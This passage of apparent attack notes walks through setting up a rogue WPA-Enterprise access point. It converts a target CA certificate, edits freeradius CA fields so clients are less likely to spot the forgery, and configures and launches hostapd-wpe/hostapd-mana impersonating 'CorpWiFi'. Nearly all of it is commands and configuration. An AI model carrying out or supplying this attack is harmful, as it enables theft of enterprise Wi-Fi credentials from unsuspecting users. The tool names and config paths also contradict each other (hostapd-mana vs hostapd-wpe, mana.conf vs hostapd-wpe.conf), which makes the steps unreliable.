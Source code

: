       2. `openssl x509 -inform der -in CERTIFICATE_FILENAME -outform pem -out OUTPUT_PEM.crt`

4. Install radius server `sudo apt install freeradius`

5. As a root user, we'll need to navigate to /etc/freeradius/3.0/certs and change the settings of ca.cnf. We edit the **[certificate_authority]** fields to
   match our target CA certificate to appear less suspicious to clients
   in case they inspect the certificate.
   
   1. `cd /etc/freeradius/3.0/certs`
   
   2. `vi ./ca.cnf`
   
   3. now change server conf `vi server.cnf`

6. Now nuke the Diffie-Hellman
   
   1. `rm dh`
   
   2. `make`
      
      1. Ignore any client side errors as that conf file was not touched.

### Using hostapd-wpe for WPA/Enterprise Attacks

#### 1. Install hostapd-mana

```bash
apt install hostapd-mana
```

---

#### 2. Configure hostapd-wpe

Edit the config (`/etc/hostapd-mana/mana.conf`):

```conf
interface=wlan0
ssid=CorpWiFi
channel=6
driver=nl80211
logger_stdout=-1
logger_stdout_level=2
ieee8021x=1
auth_server_addr=127.0.0.1
auth_server_port=1812
auth_server_shared_secret=secret
eap_server=1
eap_user_file=/etc/hostapd-wpe/hostapd.eap_user
```

---

#### 3. Start Rogue AP

```bash
hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
```
